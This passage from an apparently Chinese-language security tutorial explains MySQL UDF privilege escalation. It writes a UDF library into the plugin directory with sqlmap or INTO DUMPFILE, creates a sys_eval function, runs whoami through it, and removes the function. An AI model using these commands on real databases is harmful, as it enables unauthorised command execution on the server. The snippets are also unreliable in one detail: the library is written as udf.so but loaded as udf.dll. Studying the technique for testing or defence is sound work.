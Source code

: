  - `SQL`注入且是高权限, `plugin`目录可写且`secure_file_priv`无限制, `MySQL`插件目录可以被`MySQL`用户写入, 这个时候就可以直接使用`sqlmap`来上传动态链接库, 但是`GET`有字节长度限制, 所以往往`POST`注入才可以执行这种攻击.

```sh
sqlmap -u "http://localhost:9999/" --data="id=1" --file-write="/Users/h3rmesk1t/Desktop/lib_mysqludf_sys_64.so" --file-dest="/usr/lib/mysql/plugin/udf.so"
```

 - 如果没有注入的, 但是可以操作原生`SQL`语句, 这种情况下当`secure_file_priv`无限制的时候, 也是可以手工写文件到`plugin`目录下的.

```sql
# 直接 SELECT 查询十六进制写入
SELECT 0x7f454c4602... INTO DUMPFILE '/usr/lib/mysql/plugin/udf.so';
```

### 创建自定义函数并调用命令
 - 创建函数 sys_eval.

```sql
CREATE FUNCTION sys_eval RETURNS STRING SONAME 'udf.dll';
```

 - 导入成功后查看一下 MySQL 函数里面是否新增了 sys_eval.

```
SELECT * FROM mysql.func;
```

<div align=center><img src="./images/19.png"></div>

 - 接着通过创建的这个函数来执行系统命令了.

```sql
select sys_eval('whoami');
```

<div align=center><img src="./images/20.png"></div>

### 删除自定义函数

```sql
drop function sys_eval;
```
